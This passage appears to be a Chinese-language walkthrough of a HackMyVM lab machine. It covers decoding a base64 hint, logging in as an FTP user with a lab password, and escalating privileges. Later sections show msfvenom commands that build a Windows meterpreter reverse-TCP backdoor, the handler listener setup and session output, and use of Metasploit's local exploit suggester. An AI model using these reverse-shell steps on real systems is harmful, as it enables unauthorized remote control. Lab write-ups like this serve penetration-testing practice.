 ```bash
┌──(root㉿kali)-[/home/kali/hmv/Awayls]
└─# echo 'WW91Q2FudEZpbmRNZS4hLiE=' |base64 -d
YouCantFindMe.!.!  
```
根据第四条提示可以知道
> 用户 always
密码 YouCantFindMe.!.!

尝试利用winrm登录
发现登不进去、原来解码后的不是密码。而是提示😅

那就找一下密码吧
## 7. ftp用户登录
找了半天没有找到，看wp原来要直接从vbox登录`Ftpuser`用户
我其实有测试过winrm登录这个用户
但是失败了。我是没想到原来要从Vbox登录的。 果然是靶机啊。实战哪里有人把电脑拿过来给你登啊😅

进来后把屏幕键盘点出来，不然你会被恶心死的🤮
记得把左上角切换成EN
![assets/Pasted image 20241224205846.png](/img/user/24-%E6%B8%97%E9%80%8F/HMV/assets/Pasted%20image%2020241224205846.png)

利用密码 `KeepGoingBro!!!` 进去，后提权就行了


提权很简单。我思路是直接传一个cs后门，然后直接提就行了。
![assets/Pasted image 20241224210216.png](/img/user/24-%E6%B8%97%E9%80%8F/HMV/assets/Pasted%20image%2020241224210216.png)

生成msf后门上传 上去然后运行上线msf
```bash
生成后门
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.56.6 lport=7788 -f exe > msf7788.exe

开启监听
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.56.6
set lport 7788
run

msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.56.6:7788
[*] Sending stage (176198 bytes) to 192.168.56.25
[*] Meterpreter session 1 opened (192.168.56.6:7788 -> 192.168.56.25:54117) at 2024-12-24 08:10:03 -0500

meterpreter >
```

然后利用 `local_exploit_suggester` 模块 进行检测提权漏洞
```bash
background 回到后台
user post/multi/recon/local_exploit_suggester
set session 1
run

msf6 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf6 post(multi/recon/local_exploit_suggester) > run

[*] fe80::c471:5b9c:b92e:7e8a - Collecting local exploits for x86/windows...
[*] fe80::c471:5b9c:b92e:7e8a - 193 exploit checks are being tried...
[+] fe80::c471:5b9c:b92e:7e8a - exploit/windows/local/always_install_elevated: The target is vulnerable.
```